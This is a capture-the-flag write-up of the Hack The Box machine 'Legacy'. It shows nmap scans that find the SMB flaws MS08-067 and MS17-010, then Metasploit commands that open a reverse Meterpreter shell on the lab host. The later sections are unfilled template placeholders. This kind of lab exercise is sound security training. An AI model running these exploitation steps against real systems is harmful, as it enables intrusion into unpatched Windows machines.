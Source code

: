 ![](assets/Pasted%20image%2020241011232433.png)
# Machine Name: Legacy
**Platform:** Hack The Box
**Difficulty:** Easy
**OS:** Windows

## Introduction

Legacy is a fairly straightforward beginner-level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access.
## Recon

* **Nmap Scan:** `nmap legacy.htb -sVC -T4 -oN ~/Desktop/nmap/legacy.txt`

```bash
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b0:6e:b5 (VMware)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-10-16T19:24:21+03:00
|_clock-skew: mean: 5d00h27m39s, deviation: 2h07m16s, median: 4d22h57m39s

```

The machine seems to have an open SMB  at port 445. No http open, so I'm assuming this is where we should be digging 

## Vulnerability Identification

* **Vulnerability 1:** Vuln Scan `nmap legacy.htb --script vuln -oN ~/Desktop/nmap/legacy_vuln.txt`

```bash

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-11 23:27 JST
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for legacy.htb (10.129.227.181)
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:ls

|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-054: false

Nmap done: 1 IP address (1 host up) scanned in 68.34 seconds
```

The vuln scan gave me two CVE related SMB RCE . Here is the result in Metasploit

```bash
msf6 > search CVE-2008-4250

Matching Modules
================

   #   Name                                                             Disclosure Date  Rank   Check  Description
   -   ----                                                             ---------------  ----   -----  -----------
   0   exploit/windows/smb/ms08_067_netapi                              2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
   1     \_ target: Automatic Targeting                                 .                .      .      .
   2     \_ target: Windows 2000 Universal                              .                .      .      .
   3     \_ target: Windows XP SP0/SP1 Universal                        .                .      .       

```
## Exploitation

* **Gaining Initial Access:** Using the `ms08_067_netapi` module , I was able to get foothold access to the target easily.

```bash

msf6 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.129.227.181
rhosts => 10.129.227.181
msf6 exploit(windows/smb/ms08_067_netapi) > set lhost tun0
lhost => 10.10.14.3
msf6 exploit(windows/smb/ms08_067_netapi) > check
[+] 10.129.227.181:445 - The target is vulnerable.
msf6 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] 10.129.227.181:445 - Automatically detecting the target...
[*] 10.129.227.181:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.129.227.181:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.129.227.181:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176198 bytes) to 10.129.227.181
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.129.227.181:1036) at 2024-10-11 23:34:35 +0900

```


## Post-Exploitation

* **Further Enumeration:**
    * Any additional information gathered after gaining access (interesting files, configurations, etc.).
* **Lateral Movement (if applicable):**
    * Explain how you moved to other machines on the network (if any).

## Lessons Learned

* Key takeaways from the challenge.
* What you learned about the specific vulnerabilities or techniques used.
* Any areas where you could have improved your approach.

## Conclusion

* Summarize your overall experience with the machine.
* Highlight the challenges you faced and how you overcame them.
* Offer any advice to others attempting the same machine.

**Happy hacking!**